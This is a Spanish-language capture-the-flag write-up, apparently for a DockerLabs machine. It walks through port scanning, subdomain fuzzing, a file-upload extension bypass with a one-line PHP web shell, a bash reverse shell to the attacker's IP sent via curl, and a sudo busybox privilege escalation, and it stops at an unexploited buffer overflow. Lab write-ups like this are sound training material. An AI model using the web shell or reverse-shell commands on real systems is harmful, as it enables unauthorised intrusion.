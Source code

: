 ## FASE DE ENUMERACIÓN
Hacemos un escaneo de puertos y servicios de la IP 
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
ORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
solo tenemos el puerto 80 abierto, mirammos con herramientas como whatweb etc y no veo nada interesante, me voy a la página y veo esta parte:
```
The default Debian document root is /var/www/5eEk3r
```
así pues empiezo a pensar en virtual hosting, así pues ejecuto lo siguiente:
```bash
sudo nano /etc/hosts
```
y añadp esta línea al final:
```bash
172.17.0.2      5eEk3r
```
después de realizar fuzzing de directorios y extensiones y no encontrar nada veo esta parte en el index.html:
```
The default Debian document root is /var/www/5eEk3r. You can make your own virtual hosts under /var/www.
```
así pues lo añado al etc/hosts
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r
```
y lo abro en el navegador, dádome esto:
```
Apache/2.4.62 (Debian) Server at 5eEk3r.dl Port 80
```
así pues añadimos de nuevo en el /etc/hosts lo encontrado:
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl
```
y viendo por donde van los tiros, voy a fuzzear si hay más subdomkinios:
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.5eek3r.dl" http://5eek3r.dl | tee dominios
```
## Explicación del comando:
1- wfuzz: Herramienta de fuzzing utilizada para buscar subdominios.

2- -c: Activar la coloración de salida en la terminal.

3- --hc=404: Ignorar respuestas con código de estado 404 (no encontrado).

4- --hh=10705: Ignorar respuestas con un tamaño de encabezado HTML de 10705 bytes.

5- -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt: Ruta al diccionario de subdominios a utilizar.

6- -H "Host: FUZZ.5eek3r.dl": Utiliza el encabezado Host con el marcador de posición FUZZ que será reemplazado por las entradas del diccionario.

7- http://5eek3r.dl: URL base a la que se realizarán las solicitudes.

8- | tee dominios: Redirige la salida tanto a la terminal como a un archivo llamado dominios.

Este comando realizará el fuzzing en busca de subdominios válidos de 5eek3r.dl utilizando el diccionario proporcionado, ignorando ciertos códigos de estado y tamaños de respuesta.
Los resultados serán guardados en el archivo dominios y también se mostrarán en la terminal.


obetengo como resultado:
```
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://5eek3r.dl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                                                                                      
000010581:   400        10 L     35 W       301 Ch      "#mail"                                                                                                                                                                     
000042993:   200        101 L    75 W       932 Ch      "crosswords"
```
un 200 ok, pues lo introduzco en el /etc/hosts de nuevo, quedándome así:

```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl crosswords.5eEk3r.dl
```

hago un fuzzin su solo encuentro index.php, miro su código fuente y al final veo esto:
```
http://crosswords.5eek3r.dl/index.php/
```
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

despues ver lograr inyectar un XSS y dar mil vueltas me doy cuenta que es un rabbithole, así pues me pongo a buscar más,
me acordé del tema de los dominios y volví a ellos.
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" http://5eek3r.dl
```
```
000000024:   200        103 L    189 W      2906 Ch     "admin"
```
así pués lo añadimos de nuevo al /etc/hosts, nuevo domion admin.crosswords.5eEk3r.dl

## FASE DE INTRUSIÓN:

vamos a la página y vemos un panel interesante, dónde puedo subir archivos, subo un archivo en php y me dice:
```
No se permiten archivos PHP, solo HTML.
```
voy a probar con varias extensiones de php con un pequeño diccionario y burpsuite:
```
php
phps
phar
pht
phtm
phtml
pgif
shtml
php2
php3
php4
php
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```
el contenido algo sencillito:
```bash
<?php system($_GET['cmd']); ?>
```
y...entraron varias xD
hago una busqueda y parece ser que aquí no se han subido los archivos, así pues empiezo a mirar en los otros subdominios
y efectivamente en http://crosswords.5ee3r.dl están alojados, al menos "shell.phar" es verdad que de todos los subidos algunos no estaban:
así pues con nuestro amigo curl vamos a intentar hacernos una reverseshell, usaremos este payload:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
pero hay que encodearlo para que de menos problemas y hacemos la peticion con curl:
```bash
curl "http://crosswords.5eek3r.dl/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27"
```
Por fin estamos dentro.

## ESCALADA DE PRIVILEGIOS


Lo primero tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
primero miro si estoy en algún grupo con priviegios y nada, luego las variables de entorno y nada, pruebo:
```bash
sudo -l
```
```
User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox
```
miro en :
```bash
https://gtfobins.github.io/gtfobins/busybox/#sudo
```
información sobre el binario y ejecutando esto deberia escalar al usuario astu:
```bash
sudo -u astu /usr/bin/busybox sh
```

Ya somos astu, volvemos a mirar con "id" si estamos en algun grupo privilegiado, no es así, variable de entorno,
nada, sudo -l no tenemos credenciales, así pues toca mirar que podemos encontrar.
vamos al home de astu y hay una carpeta con un binario.
lo ejecutamos :
```bash
./bs64
```
Ingrese el texto: sadasd
c2FYXN
```
pues vamos a probar a ver si se trata de un bof:
```
./bs64
Ingrese el texto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
YWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYW=
Segmentation fault
```
Segmentation fault, se trata de un bof.

y hasta aquí he llegado porque no se hacer bof xD... tendré que ponerme a ello en un futuro.

